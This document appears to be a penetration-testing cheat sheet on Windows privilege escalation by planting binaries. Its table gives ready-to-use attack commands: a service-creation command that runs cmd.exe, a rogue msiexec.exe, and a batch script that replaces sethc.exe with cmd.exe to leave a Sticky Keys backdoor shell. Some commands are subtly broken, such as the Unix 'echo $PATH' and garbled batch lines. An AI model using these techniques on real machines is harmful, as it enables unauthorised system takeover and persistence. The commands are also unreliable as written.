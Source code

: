 # Windows Binary Planting

Binary Planting is essentially putting binary is a specific place, be it moved, copied or uploaded to create the desired effect. In this section we'll be going over the use of binary planting to escalate privileges.

| Command | Description / Importance |
| ------- | ------------------------ |
| `%SystemRoot%\System32\wbem\mof\` | Taken from Stuxnet: http://blogs.iss.net/archive/papers/ibm-xforce-an-inside-look-at-stuxnet.pdf Look for Print spooler vulnerability. |
| `echo $PATH` | Check the $PATH environmental variable. Some directories may be writable. See: https://www.htbridge.com/advisory/HTB23108 |
| `msiexec.exe` | Idea taken from here: http://goo.gl/E3LTa - basically put evil binary named msiexec.exe in Downloads directory and when a installer calles msiexec without specifying path you get code execution. |
| `sc create cmdsys type= own type= interact binPath= "c:\windows\system32\cmd.exe /c cmd.exe" & sc start cmdsys` | Create malicious services. |
|<code>Replacing file as: sethc.exe<br>@echo off <br>c: > nul\\cd\ > nul\\cd %SYSTEMROOT%\System32\ > nul <br>if exist %SYSTEMROOT%\System32\cmdsys\ rd /q %SYSTEMROOT%\System32\cmdsys\ > nul <br>cmd %SYSTEMROOT%\System32\cmdsys\ > nul <br>copy /y c:\windows\system32\cmd.exe c:\windows\system32\cmdsys\cmd.bkp /y > nul <br>copy /y c:\windows\system32\sethc.exe c:\windows\system32\cmdsys\sethc.bkp /y > nul <br>copy /y c:\windows\system32\cmd.exe c:\windows\system32\cmdsys\sethc.exe /y > nul <br>copy /y c:\windows\system32\cmdsys\sethc.exe c:\windows\system32\sethc.exe /y > nul<br>exit</code> | By doing this, you just have to press the sticky key activation key. From Wikipedia.org: To enable this shortcut, the ?Shift key must be pressed 5 times in short succession. This feature can also be turned on and off via the Accessibility icon in the Windows Control Panel. To turn off once enabled, just simply press 3 or more of the Sticky Keys (Ctrl, Alt, Shift, Windows Button) at the same time. |